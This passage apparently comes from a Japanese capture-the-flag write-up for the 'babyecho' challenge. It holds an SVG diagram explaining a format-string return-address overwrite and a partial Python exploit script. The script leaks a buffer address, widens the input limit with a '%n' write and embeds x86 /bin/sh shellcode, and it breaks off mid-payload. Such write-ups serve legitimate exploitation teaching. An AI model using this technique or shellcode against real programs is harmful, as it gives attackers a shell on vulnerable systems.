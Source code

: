 <text class="comment" text-anchor="start" fill="black" dy=".35em" transform="translate(320,120)">(addr_ret = リターンアドレスの格納場所)</text>
<text class="comment" text-anchor="start" fill="black" dy=".35em" transform="translate(320,160)">- バッファーにshellcodeを書く</text>
<g class="block" transform="translate(325,200)">
<path stroke="#000000" fill="none" d="M0,0h-30" marker-end="url(#pointhead)" stroke-width="1" />
<text class="comment" text-anchor="start" fill="black" dy=".35em" transform="translate(5,0)">addr_retにaddr_shellを書き込む</text>
</g>
<text class="comment" text-anchor="start" fill="black" dy=".35em" transform="translate(320,240)">(addr_shell = shellcodeの開始アドレス)</text>
<g class="block" transform="translate(325,280)">
<path stroke="#000000" fill="none" d="M0,0h-15" marker-end="url(#pointhead)" stroke-width="1" />
<text class="comment" text-anchor="start" fill="black" dy=".35em" transform="translate(5,0)">printfからaddr_retにあるアドレスに戻る</text>
</g>
<text class="comment" text-anchor="start" fill="black" dy=".35em" transform="translate(320,320)">- shellcodeが実行される</text>
</svg>


```python
#!/usr/bin/env python

import sys
import socket
import struct

HOST = 'localhost' # 'babyecho_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me'
PORT = 3232

s = socket.create_connection((HOST, PORT))

def exploit():
    index = 7 # index of read/write buffer

    print(s.recv(8192))
    s.send("%5$10p\n") # request buffer address

    addr_buf = int(s.recv(10), 16)
    print("[DEBUG] Buffer address = 0x%x" % addr_buf)

    code = struct.pack('<I', (addr_buf - 0xb)) # address[buffer size limit] << 8
    code += "%%%d$ln\n" % index # write message text length = 4

    s.recv(8192)
    s.send(code) # overwrite buffer

    s.recv(8192)
    print(s.recv(8192))

    # x86 /bin/sh shellcode
    shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

    addr_ret = addr_buf - 0x20  # call return address = [esp]

    payload = struct.pack('<I', addr_ret) \
    + struct.pack('<I', addr_ret + 1) \
    + struct.pack('<I', addr_ret + 2) \
    + struct.pack('<I', addr_ret + 3) \
    + shellcode

    addr_shell = [
    addr_buf + 16 >> 0  & 0xff,
```